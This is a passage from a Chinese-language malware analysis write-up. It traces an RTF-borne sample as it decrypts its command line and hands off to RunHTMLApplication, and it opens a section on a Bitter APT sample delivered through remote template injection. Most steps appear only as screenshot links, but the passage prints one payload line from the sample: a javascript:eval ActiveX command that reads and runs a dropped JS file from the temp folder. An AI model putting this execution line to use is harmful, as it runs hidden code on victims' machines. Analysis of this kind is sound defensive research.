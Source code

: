 其后流程如图所示：

![图片53 GetCommandLine](https://s1.ax1x.com/2020/03/19/8sEBhF.png)

![图片54 GetCommandLine](https://s1.ax1x.com/2020/03/19/8sErp4.png)

![图片55 call](https://s1.ax1x.com/2020/03/19/8sEs1J.png)

下面将字符串解密，并覆盖原CommandLine内容：

![图片56 DecryptStr](https://s1.ax1x.com/2020/03/19/8sYn2R.png)

![图片57 DecryptStr](https://s1.ax1x.com/2020/03/19/8sYjL6.png)

执行完结果如下：

![图片58 StrResult](https://s1.ax1x.com/2020/03/19/8sYqzR.png)

最后实际执行部分：

```
javascript:eval("sa=ActiveXObject;ab=new sa(\"Scripting.FileSystemObject\");
eval(ab.OpenTextFile(ab.GetSpecialFolder(2)+\"\\\\1.a\",1).ReadAll());windowclose()")
```

其后调用`RunHTMLApplication()`：

![图片59 RunHTMLApplicaton](https://s1.ax1x.com/2020/03/19/8sYOQ1.png)

![图片60 RunHTMLApplicaton](https://s1.ax1x.com/2020/03/19/8sYXsx.png)

![图片61 RunHTMLApplicaton](https://s1.ax1x.com/2020/04/03/GNPgN4.jpg)

![图片62 RunHTMLApplicaton](https://s1.ax1x.com/2020/04/03/GNP24J.jpg)

![图片63 RunHTMLApplicaton](https://s1.ax1x.com/2020/04/03/GNPWC9.jpg)

1.a就是之前提到RTF文档中的Package，其实质是一JS文件：

![图片64 JS](https://s1.ax1x.com/2020/04/03/GNPcEF.jpg)

![图片65 JS](https://s1.ax1x.com/2020/04/03/GNPyHU.jpg)

最后，其执行结果大体如下图所示：

![图片66 result](https://s1.ax1x.com/2020/04/03/GNPf3R.jpg)

## 0x05 蔓灵花(Bitter)组织某样本分析

通过远程模板注入的方式下载一RTF格式文档：

![图片67 downloadRTF](https://s1.ax1x.com/2020/03/21/8h8VnH.png)
